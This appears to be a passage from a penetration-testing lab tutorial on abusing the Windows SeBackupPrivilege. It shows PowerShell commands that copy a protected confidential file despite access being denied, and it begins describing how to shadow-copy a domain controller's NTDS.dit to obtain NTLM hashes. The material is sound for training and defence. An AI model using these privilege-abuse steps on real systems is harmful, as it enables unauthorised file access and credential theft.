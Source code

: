 ### Copying a Protected File

With the privilege enabled, it can now be leveraged to copy any protected file.

```powershell
PS C:\> dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt


PS C:\> cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

```powershell
PS C:\Windows\Temp> Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes


PS C:\Windows\Temp>  cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<SNIP>
```

This command shows how sensitive information can be accessed without possessing the required permissions.

### Attacking a Domain Controller - Copying NTDS.dit

This group also permits logging in locally to a domain controller. The active directory database `NTDS.dit` is a very attractive target, as it contains the NTLM hashes for all user and computer objects in the domain. However, this file is locked and is not accessible to unprivileged users.

As the `NTDS.dit` file is locked by default, we can use the Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) utility to create a shadow copy of the C:\ drive and expose it as the E:\ drive. The NTDS.dit in the shadow copy won't be in use the system.
